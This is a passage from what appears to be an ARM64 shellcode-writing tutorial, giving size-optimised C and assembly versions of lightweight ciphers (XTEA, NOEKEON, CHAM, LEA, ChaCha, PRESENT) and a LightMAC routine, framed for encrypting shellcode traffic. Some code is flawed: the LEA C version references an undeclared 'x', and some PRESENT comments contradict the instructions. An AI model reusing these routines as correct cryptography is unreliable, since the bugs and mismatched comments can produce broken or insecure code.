    eor    w6, w6, w2          // x[0] ^= k[0];
    eor    w7, w7, w3          // x[1] ^= k[1];
    eor    w8, w8, w4          // x[2] ^= k[2];
    eor    w9, w9, w5          // x[3] ^= k[3];

    // save 128-bit cipher text
    stp    w6, w7, [x1]
    stp    w8, w9, [x1, 8]
    ret
```

### 7.9 XTEA

A block cipher designed by Roger Needham and David Wheeler. It was published in 1998 as a response to weaknesses found in the Tiny Encryption Algorithm (TEA). XTEA compared to its predecessor TEA contains a more complex key-schedule and rearrangement of shifts, XORs, and additions. The implementation here uses 32 rounds.

[Tea Extensions](http://www.cix.co.uk/~klockstone/xtea.pdf)

```c
void xtea(void*mk,void*p){
  unsigned int t,r=65,s=0,*k=mk,*x=p;

  while(--r)
    t=x[1],
    x[1]=*x+=((((t<<4)^(t>>5))+t)^
    (s+k[((r&1)?s+=0x9E3779B9,
    s>>11:s)&3])),*x=t;
}
```

Although the round counter r is initialized to 65, it is only performing 32 rounds of encryption. If 64 rounds were required, then r should be initialized to 129 (64*2+1). Perhaps it would make more sense to allow a number of rounds as a parameter, but this is simply for illustration.

```assembly
// XTEA in ARM64 assembly
// 92 bytes

    .arch armv8-a
    .text

    .equ ROUNDS, 32

    .global xtea

    // xtea(void*mk, void*data);
xtea:
    mov    w7, ROUNDS * 2

    // load 64-bit plain text
    ldp    w2, w4, [x1]         // x0  = x[0], x1 = x[1];
    mov    w3, wzr              // sum = 0;
    ldr    w5, =0x9E3779B9      // c   = 0x9E3779B9;
L0:
    mov    w6, w3               // t0 = sum;
    tbz    w7, 0, L1            // if ((i & 1)==0) goto L1;

    // the next 2 only execute if (i % 2) is not zero
    add    w3, w3, w5           // sum += 0x9E3779B9;
    lsr    w6, w3, 11           // t0 = sum >> 11
L1:
    and    w6, w6, 3            // t0 %= 4
    ldr    w6, [x0, x6, lsl 2]  // t0 = k[t0];
    add    w8, w3, w6           // t1 = sum + t0
    mov    w6, w4, lsl 4        // t0 = (x1 << 4)
    eor    w6, w6, w4, lsr 5    // t0^= (x1 >> 5)
    add    w6, w6, w4           // t0+= x1
    eor    w6, w6, w8           // t0^= t1
    mov    w8, w4               // backup x1
    add    w4, w6, w2           // x1 = t0 + x0

    // XCHG(x0, x1)
    mov    w2, w8               // x0 = x1
    subs   w7, w7, 1
    bne    L0                   // i > 0
    stp    w2, w4, [x1]
    ret
```

### 7.10 NOEKEON

A block cipher designed by Joan Daemen, Michaël Peeters, Gilles Van Assche and Vincent Rijmen.

[Noekeon website](http://gro.noekeon.org/)

```c
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))

void noekeon(void*mk,void*p){
  unsigned int a,b,c,d,t,*k=mk,*x=p;
  unsigned char rc=128;

  a=*x;b=x[1];c=x[2];d=x[3];

  for(;;) {
    a^=rc;t=a^c;t^=R(t,8)^R(t,24);
    b^=t;d^=t;a^=k[0];b^=k[1];
    c^=k[2];d^=k[3];t=b^d;
    t^=R(t,8)^R(t,24);a^=t;c^=t;
    if(rc==212)break;
    rc=((rc<<1)^((rc>>7)*27));
    b=R(b,31);c=R(c,27);d=R(d,30);
    b^=~((d)|(c));t=d;d=a^c&b;a=t;
    c^=a^b^d;b^=~((d)|(c));a^=c&b;
    b=R(b,1);c=R(c,5);d=R(d,2);
  }
  *x=a;x[1]=b;x[2]=c;x[3]=d;
}
```

NOEKEON can be implemented quite well for both INTEL and ARM architectures.

```assembly
// NOEKEON in ARM64 assembly
// 212 bytes

    .arch armv8-a
    .text

    .global noekeon

noekeon:
    mov    x12, x1

    // load 128-bit key
    ldp    w4, w5, [x0]
    ldp    w6, w7, [x0, 8]

    // load 128-bit plain text
    ldp    w2, w3, [x1, 8]
    ldp    w0, w1, [x1]

    // c = 128
    mov    w8, 128
    mov    w9, 27
L0:
    // a^=rc;t=a^c;t^=R(t,8)^R(t,24);
    eor    w0, w0, w8
    eor    w10, w0, w2
    eor    w11, w10, w10, ror 8
    eor    w10, w11, w10, ror 24

    // b^=t;d^=t;a^=k[0];b^=k[1];
    eor    w1, w1, w10
    eor    w3, w3, w10
    eor    w0, w0, w4
    eor    w1, w1, w5

    // c^=k[2];d^=k[3];t=b^d;
    eor    w2, w2, w6
    eor    w3, w3, w7
    eor    w10, w1, w3

    // t^=R(t,8)^R(t,24);a^=t;c^=t;
    eor    w11, w10, w10, ror 8
    eor    w10, w11, w10, ror 24
    eor    w0, w0, w10
    eor    w2, w2, w10

    // if(rc==212)break;
    cmp    w8, 212
    beq    L1

    // rc=((rc<<1)^((rc>>7)*27));
    lsr    w10, w8, 7
    mul    w10, w10, w9
    eor    w8, w10, w8, lsl 1
    uxtb   w8, w8

    // b=R(b,31);c=R(c,27);d=R(d,30);
    ror    w1, w1, 31
    ror    w2, w2, 27
    ror    w3, w3, 30

    // b^=~(d|c);t=d;d=a^(c&b);a=t;
    orr    w10, w3, w2
    eon    w1, w1, w10
    mov    w10, w3
    and    w3, w2, w1
    eor    w3, w3, w0
    mov    w0, w10

    // c^=a^b^d;b^=~(d|c);a^=c&b;
    eor    w2, w2, w0
    eor    w2, w2, w1
    eor    w2, w2, w3
    orr    w10, w3, w2
    eon    w1, w1, w10
    and    w10, w2, w1
    eor    w0, w0, w10

    // b=R(b,1);c=R(c,5);d=R(d,2);
    ror    w1, w1, 1
    ror    w2, w2, 5
    ror    w3, w3, 2
    b      L0
L1:
    // *x=a;x[1]=b;x[2]=c;x[3]=d;
    stp    w0, w1, [x12]
    stp    w2, w3, [x12, 8]
    ret
```

### 7.11 CHAM

A block cipher designed by Bonwook Koo, Dongyoung Roh, Hyeonjin Kim, Younghoon Jung, Dong-Geon Lee, and Daesung Kwon.

[CHAM: A Family of Lightweight Block Ciphers for Resource-Constrained Devices.](https://pdfs.semanticscholar.org/2f57/61b5c2614cffd58a09cc83c375a2b32a2ed3.pdf)

```c
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define F(n)for(i=0;i<n;i++)
typedef unsigned int W;

void cham(void*mk,void*p){
  W rk[8],*w=p,*k=mk,i,t;

  F(4)
    t=k[i]^R(k[i],31),
    rk[i]=t^R(k[i],24),
    rk[(i+4)^1]=t^R(k[i],21);
  F(80)
    t=w[3],w[0]^=i,w[3]=rk[i&7],
    w[3]^=R(w[1],(i&1)?24:31),
    w[3]+=w[0],
    w[3]=R(w[3],(i&1)?31:24),
    w[0]=w[1],w[1]=w[2],w[2]=t;
}
```

This algorithm works better for 32-bit ARM where conditional execution of all instructions is supported.

```assembly
// CHAM 128/128 in ARM64 assembly
// 160 bytes 

    .arch armv8-a
    .text
    .global cham

    // cham(void*mk,void*p);
cham:
    sub    sp, sp, 32
    mov    w2, wzr
    mov    x8, x1
L0:
    // t=k[i]^R(k[i],31),
    ldr    w5, [x0, x2, lsl 2]
    eor    w6, w5, w5, ror 31

    // rk[i]=t^R(k[i],24),
    eor    w7, w6, w5, ror 24
    str    w7, [sp, x2, lsl 2]

    // rk[(i+4)^1]=t^R(k[i],21);
    eor    w7, w6, w5, ror 21
    add    w5, w2, 4
    eor    w5, w5, 1
    str    w7, [sp, x5, lsl 2]

    // i++
    add    w2, w2, 1
    // i < 4
    cmp    w2, 4
    bne    L0

    ldp    w0, w1, [x8]
    ldp    w2, w3, [x8, 8]

    // i = 0
    mov    w4, wzr
L1:
    tst    w4, 1

    // t=w[3],w[0]^=i,w[3]=rk[i%8],
    mov    w5, w3
    eor    w0, w0, w4
    and    w6, w4, 7
    ldr    w3, [sp, x6, lsl 2]

    // w[3]^=R(w[1],(i & 1) ? 24 : 31),
    mov    w6, w1, ror 24
    mov    w7, w1, ror 31
    csel   w6, w6, w7, ne
    eor    w3, w3, w6

    // w[3]+=w[0],
    add    w3, w3, w0

    // w[3]=R(w[3],(i & 1) ? 31 : 24),
    mov    w6, w3, ror 31
    mov    w7, w3, ror 24
    csel   w3, w6, w7, ne

    // w[0]=w[1],w[1]=w[2],w[2]=t;
    mov    w0, w1
    mov    w1, w2
    mov    w2, w5

    // i++ 
    add    w4, w4, 1
    // i < 80
    cmp    w4, 80
    bne    L1

    stp    w0, w1, [x8]
    stp    w2, w3, [x8, 8]
    add    sp, sp, 32
    ret
```

### 7.12 LEA-128

A block cipher designed by Deukjo Hong, Jung-Keun Lee, Dong-Chan Kim, Daesung Kwon, Kwon Ho Ryu, and Dong-Geon Lee.

[LEA: A 128-Bit Block Cipher for Fast Encryption on Common Processors](https://seed.kisa.or.kr/html/egovframework/iwt/ds/ko/ref/LEA A 128-Bit Block Cipher for Fast Encryption on Common Processors-English.pdf)

```
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
typedef unsigned int W;

void lea128(void*mk,void*p){
  W r,t,*w=p,*k=mk;
  W c[4]=
    {0xc3efe9db,0x88c4d604,
     0xe789f229,0xc6f98763};

  for(r=0;r<24;r++){
    t=c[r%4];
    c[r%4]=R(t,28);
    k[0]=R(k[0]+t,31);
    k[1]=R(k[1]+R(t,31),29);
    k[2]=R(k[2]+R(t,30),26);
    k[3]=R(k[3]+R(t,29),21);      
    t=x[0];
    w[0]=R((w[0]^k[0])+(w[1]^k[1]),23);
    w[1]=R((w[1]^k[2])+(w[2]^k[1]),5);
    w[2]=R((w[2]^k[3])+(w[3]^k[1]),3);
    w[3]=t;
  }
}
```

Everything here is very straight forward. All Add, Rotate, Xor operations.

```assembly
// LEA-128/128 in ARM64 assembly
// 224 bytes

    .arch armv8-a

    // include the MOVL macro
    .include "../../include.inc"

    .text
    .global lea128

lea128:
    mov    x11, x0
    mov    x12, x1

    // allocate 16 bytes
    sub    sp, sp, 4*4

    // load immediate values
    movl   w0, 0xc3efe9db
    movl   w1, 0x88c4d604
    movl   w2, 0xe789f229
    movl   w3, 0xc6f98763

    // store on stack
    str    w0, [sp    ]
    str    w1, [sp,  4]
    str    w2, [sp,  8]
    str    w3, [sp, 12]

    // for(r=0;r<24;r++) {
    mov    w8, wzr

    // load 128-bit key
    ldp    w4, w5, [x11]
    ldp    w6, w7, [x11, 8]

    // load 128-bit plaintext
    ldp    w0, w1, [x12]
    ldp    w2, w3, [x12, 8]
L0:
    // t=c[r%4];
    and    w9, w8, 3
    ldr    w10, [sp, x9, lsl 2]

    // c[r%4]=R(t,28);
    mov    w11, w10, ror 28
    str    w11, [sp, x9, lsl 2]

    // k[0]=R(k[0]+t,31);
    add    w4, w4, w10
    ror    w4, w4, 31

    // k[1]=R(k[1]+R(t,31),29);
    ror    w11, w10, 31
    add    w5, w5, w11
    ror    w5, w5, 29

    // k[2]=R(k[2]+R(t,30),26);
    ror    w11, w10, 30
    add    w6, w6, w11
    ror    w6, w6, 26

    // k[3]=R(k[3]+R(t,29),21);
    ror    w11, w10, 29
    add    w7, w7, w11
    ror    w7, w7, 21

    // t=x[0];
    mov    w10, w0

    // w[0]=R((w[0]^k[0])+(w[1]^k[1]),23);
    eor    w0, w0, w4
    eor    w9, w1, w5
    add    w0, w0, w9
    ror    w0, w0, 23

    // w[1]=R((w[1]^k[2])+(w[2]^k[1]),5);
    eor    w1, w1, w6
    eor    w9, w2, w5
    add    w1, w1, w9
    ror    w1, w1, 5

    // w[2]=R((w[2]^k[3])+(w[3]^k[1]),3);
    eor    w2, w2, w7
    eor    w3, w3, w5
    add    w2, w2, w3
    ror    w2, w2, 3

    // w[3]=t;
    mov    w3, w10

    // r++
    add    w8, w8, 1
    // r < 24
    cmp    w8, 24
    bne    L0

    // save 128-bit ciphertext
    stp    w0, w1, [x12]
    stp    w2, w3, [x12, 8]

    add    sp, sp, 4*4
    ret
```

### 7.13 CHACHA

A stream cipher designed by Daniel Bernstein and published in 2008. This along with Poly1305 for authentication has become a drop in replacement on handheld devices for AES-128-GCM where AES native instructions are unavailable. The version implemented here is based on a description provided in RFC 8439 that uses a 256-bit key, a 32-bit counter and 96-bit nonce.

[The ChaCha family of stream ciphers.](https://cr.yp.to/chacha.html)

[ChaCha20 and Poly1305 for IETF Protocols](https://tools.ietf.org/rfc/rfc8439.txt)

```
#define R(v,n)(((v)>>(n))|((v)<<(32-(n))))
#define F(n)for(i=0;i<n;i++)
#define X(a,b)(t)=(a),(a)=(b),(b)=(t)
typedef unsigned int W;

void P(W*s,W*x){
    W a,b,c,d,i,t,r;
    W v[8]={0xC840,0xD951,0xEA62,0xFB73,
            0xFA50,0xCB61,0xD872,0xE943};
            
    F(16)x[i]=s[i];
    
    F(80) {
      d=v[i%8];
      a=(d&15);b=(d>>4&15);
      c=(d>>8&15);d>>=12;
      
      for(r=0x19181410;r;r>>=8)
        x[a]+=x[b],
        x[d]=R(x[d]^x[a],(r&255)),
        X(a,c),X(b,d);
    }
    F(16)x[i]+=s[i];
    s[12]++;
}
void chacha(W l,void*in,void*state){
    unsigned char c[64],*p=in;
    W i,r,*s=state,*k=in;

    if(l) {
      while(l) {
        P(s,(W*)c);
        r=(l>64)?64:l;
        F(r)*p++^=c[i];
        l-=r;
      }
    } else {
      s[0]=0x61707865;s[1]=0x3320646E;
      s[2]=0x79622D32;s[3]=0x6B206574;
      F(12)s[i+4]=k[i];
    }
}
```

The permutation function makes use of the UBFX instruction.

```assembly
// ChaCha in ARM64 assembly 
// 348 bytes

 .arch armv8-a
 .text
 .global chacha

 .include "../../include.inc"

P:
    adr     x13, cc_v

    // F(16)x[i]=s[i];
    mov     x8, 0
P0:
    ldr     w14, [x2, x8, lsl 2]
    str     w14, [x3, x8, lsl 2]

    add     x8, x8, 1
    cmp     x8, 16
    bne     P0

    mov     x8, 0
P1:
    // d=v[i%8];
    and     w12, w8, 7
    ldrh    w12, [x13, x12, lsl 1]

    // a=(d&15);b=(d>>4&15);
    // c=(d>>8&15);d>>=12;
    ubfx    w4, w12, 0, 4
    ubfx    w5, w12, 4, 4
    ubfx    w6, w12, 8, 4
    ubfx    w7, w12, 12, 4

    movl    w10, 0x19181410
P2:
    // x[a]+=x[b],
    ldr     w11, [x3, x4, lsl 2]
    ldr     w12, [x3, x5, lsl 2]
    add     w11, w11, w12
    str     w11, [x3, x4, lsl 2]

    // x[d]=R(x[d]^x[a],(r&255)),
    ldr     w12, [x3, x7, lsl 2]
    eor     w12, w12, w11
    and     w14, w10, 255
    ror     w12, w12, w14
    str     w12, [x3, x7, lsl 2]

    // X(a,c),X(b,d);
    stp     w4, w6, [sp, -16]!
    ldp     w6, w4, [sp], 16
    stp     w5, w7, [sp, -16]!
    ldp     w7, w5, [sp], 16

    // r >>= 8
    lsr    w10, w10, 8
    cbnz   w10, P2

    // i++
    add    x8, x8, 1
    // i < 80
    cmp    x8, 80
    bne    P1

    // F(16)x[i]+=s[i];
    mov    x8, 0
P3:
    ldr    w11, [x2, x8, lsl 2]
    ldr    w12, [x3, x8, lsl 2]
    add    w11, w11, w12
    str    w11, [x3, x8, lsl 2]

    add    x8, x8, 1
    cmp    x8, 16
    bne    P3

    // s[12]++;
    ldr    w11, [x2, 12*4]
    add    w11, w11, 1
    str    w11, [x2, 12*4]
    ret
cc_v:
    .2byte 0xC840, 0xD951, 0xEA62, 0xFB73
    .2byte 0xFA50, 0xCB61, 0xD872, 0xE943

    // void chacha(int l, void *in, void *state);
chacha:
    str    x30, [sp, -96]!
    cbz    x0, L2

    add    x3, sp, 16

    mov    x9, 64
L0:
    // P(s,(W*)c);
    bl     P

    // r=(l > 64) ? 64 : l;
    cmp    x0, 64
    csel   x10, x0, x9, ls

    // F(r)*p++^=c[i];
    mov    x8, 0
L1:
    ldrb   w11, [x3, x8]
    ldrb   w12, [x1]
    eor    w11, w11, w12
    strb   w11, [x1], 1

    add    x8, x8, 1
    cmp    x8, x10
    bne    L1

    // l-=r;
    subs   x0, x0, x10
    bne    L0
    beq    L4
L2:
    // s[0]=0x61707865;s[1]=0x3320646E;
    movl   w11, 0x61707865
    movl   w12, 0x3320646E
    stp    w11, w12, [x2]

    // s[2]=0x79622D32;s[3]=0x6B206574;
    movl   w11, 0x79622D32
    movl   w12, 0x6B206574
    stp    w11, w12, [x2, 8]

    // F(12)s[i+4]=k[i];
    mov    x8, 16
    sub    x1, x1, 16
L3:
    ldr    w11, [x1, x8]
    str    w11, [x2, x8]
    add    x8, x8, 4
    cmp    x8, 64
    bne    L3
L4:
    ldr    x30, [sp], 96
    ret
```

### 7.14 PRESENT

A block cipher specifically designed for hardware and published in 2007. Why implement a hardware cipher? PRESENT is a 64-bit block cipher that can be implemented reasonably well on any 64-bit architecture. Although the data and key are byte swapped before being processed using the REV instruction, stripping this should not affect security of the cipher.

[PRESENT: An Ultra-Lightweight Block Cipher](http://lightweightcrypto.org/present/present_ches2007.pdf)

```
#define R(v,n)(((v)>>(n))|((v)<<(64-(n))))
#define F(a,b)for(a=0;a<b;a++)

typedef unsigned long long W;
typedef unsigned char B;

B sbox[16] =
  {0xc,0x5,0x6,0xb,0x9,0x0,0xa,0xd,
   0x3,0xe,0xf,0x8,0x4,0x7,0x1,0x2 };

B S(B x) {
  return (sbox[(x&0xF0)>>4]<<4)|sbox[(x&0x0F)];
}

#define rev __builtin_bswap64

void present(void*mk,void*data) {
    W i,j,r,p,t,t2,k0,k1,*k=(W*)mk,*x=(W*)data;
    
    k0=rev(k[0]); k1=rev(k[1]);t=rev(x[0]);
  
    F(i,32-1) {
      p=t^k0;
      F(j,8)((B*)&p)[j]=S(((B*)&p)[j]);
      t=0;r=0x0030002000100000;
      F(j,64)
        t|=((p>>j)&1)<<(r&255),
        r=R(r+1,16);
      p =(k0<<61)|(k1>>3);
      k1=(k1<<61)|(k0>>3);
      p=R(p,56);
      ((B*)&p)[0]=S(((B*)&p)[0]);
      k0=R(p,8)^((i+1)>>2);
      k1^=(((i+1)& 3)<<62);
    }
    x[0] = rev(t^k0);
}
```

The sbox lookup routine (S) uses UBFX and BFI/BFXIL in place of LSR,LSL,AND and ORR. The source requires preprocessing with `cpp -E` before assembly. PRESENT-64/128 is more secure than DES.

```assembly
// PRESENT in ARM64 assembly
// 224 bytes

    .arch armv8-a
    .text
    .global present

    #define k  x0
    #define x  x1
    #define r  w2
    #define p  x3
    #define t  x4
    #define k0 x5
    #define k1 x6
    #define i  x7
    #define j  x8
    #define s  x9

present:
    str     lr, [sp, -16]!

    // k0=k[0];k1=k[1];t=x[0];
    ldp     k0, k1, [k]
    ldr     t, [x]

    // only dinosaurs use big endian convention
    rev     k0, k0
    rev     k1, k1
    rev     t, t

    mov     i, 0
    adr     s, sbox
L0:
    // p=t^k0;
    eor     p, t, k0

    // F(j,8)((B*)&p)[j]=S(((B*)&p)[j]);
    mov     j, 8
L1:
    bl      S
    ror     p, p, 8
    subs    j, j, 1
    bne     L1

    // t=0;r=0x0030002000100000;
    mov     t, 0
    ldr     r, =0x30201000
    // F(j,64)
    mov     j, 0
L2:
    // t|=((p>>j)&1)<<(r&255),
    lsr     x10, p, j         // x10 = (p >> j) & 1
    and     x10, x10, 1       // 
    lsl     x10, x10, x2      // x10 << r
    orr     t, t, x10         // t |= x10

    // r=R(r+1,16);
    add     r, r, 1           // r = R(r+1, 8)
    ror     r, r, 8

    add     j, j, 1           // j++
    cmp     j, 64             // j < 64
    bne     L2

    // p =(k0<<61)|(k1>>3);
    lsr     p, k1, 3
    orr     p, p, k0, lsl 61

    // k1=(k1<<61)|(k0>>3);
    lsr     k0, k0, 3
    orr     k1, k0, k1, lsl 61

    // p=R(p,56);
    ror     p, p, 56
    bl      S

    // i++
    add     i, i, 1

    // k0=R(p,8)^((i+1)>>2);
    lsr     x10, i, 2
    eor     k0, x10, p, ror 8

    // k1^= (((i+1)&3)<<62);
    and     x10, i, 3
    eor     k1, k1, x10, lsl 62

    // i < 31
    cmp     i, 31
    bne     L0

    // x[0] = t ^= k0
    eor     p, t, k0
    rev     p, p
    str     p, [x]

    ldr     lr, [sp], 16
    ret

S:
    ubfx    x10, p, 0, 4              // x10 = (p & 0x0F)
    ubfx    x11, p, 4, 4              // x11 = (p & 0xF0) >> 4

    ldrb    w10, [s, w10, uxtw 0]     // w10 = s[w10]
    ldrb    w11, [s, w11, uxtw 0]     // w11 = s[w11]

    bfi     p, x10, 0, 4              // p[0] = ((x11 << 4) | x10)
    bfi     p, x11, 4, 4

    ret
sbox:
    .byte 0xc, 0x5, 0x6, 0xb, 0x9, 0x0, 0xa, 0xd
    .byte 0x3, 0xe, 0xf, 0x8, 0x4, 0x7, 0x1, 0x2
```

### 7.15 LIGHTMAC

A Message Authentication Code using block ciphers. Designed by Atul Luykx, Bart Preneel, Elmar Tischhauser, and Kan Yasuda. The version shown here only supports ciphers with a 64-bit block size and 128-bit key. E is defined as a block cipher. For this code, one could use XTEA, SPECK-64/128 or PRESENT-128. If BLK_LEN and TAG_LENare changed to 16, it will support 128-bit ciphers like AES-128, CHASKEY, CHAM-128/128, SPECK-128/256, LEA-128, NOEKEON. Based on the parameters used here, the largest message length can be 1,792 bytes. For a shellcode trasmitting small packets, this should be sufficient.

[A MAC Mode for Lightweight Block Ciphers](https://eprint.iacr.org/2016/190)

To improve upon the parameters used for 64-bit block ciphers, read the following paper.

[Blockcipher-based MACs: Beyond the Birthday Bound without Message Length](https://eprint.iacr.org/2017/852)

```c
#define CTR_LEN     1 // 8-bits
#define BLK_LEN     8 // 64-bits
#define TAG_LEN     8 // 64-bits
#define BC_KEY_LEN 16 // 128-bits

#define M_LEN         BLK_LEN-CTR_LEN

void present(void*mk,void*data);
#define E present

#define F(a,b)for(a=0;a<b;a++)
typedef unsigned int W;
typedef unsigned char B;

// max message for current parameters is 1792 bytes
void lm(B*b,W l,B*k,B*t) {
    int i,j,s;
    B   m[BLK_LEN];

    // initialize tag T
    F(i,TAG_LEN)t[i]=0;

    for(s=1,j=0; l>=M_LEN; s++,l-=M_LEN) {
      // add 8-bit counter S 
      m[0] = s;
      // add bytes to M 
      F(j,M_LEN)
        m[CTR_LEN+j]=*b++;
      // encrypt M with K1
      E(k,m);
      // update T
      F(i,TAG_LEN)t[i]^=m[i];
    }
    // copy remainder of input
    F(i,l)m[i]=b[i];
    // add end bit
    m[i]=0x80;
    // update T 
    F(i,l+1)t[i]^=m[i];
    // encrypt T with K2
    k+=BC_KEY_LEN;
    E(k,t);
}
```

No assembly for this right now, but feel free to have a go!

## 8. Summary

ARM expects their “Deimos” design scheduled for 2019 and “Hercules” for 2020 to outperform any laptop class CPU from Intel. The ARM64 instruction set is almost perfect. The only minor thing that annoys me is how the x30 register (Link Register) must be saved across calls to subroutines. There’s also no rotate left or modulus instructions that would be useful.

All code shown here can be found in [this github repo.](https://github.com/odzhan/shellcode/tree/master/os/linux/arm64)

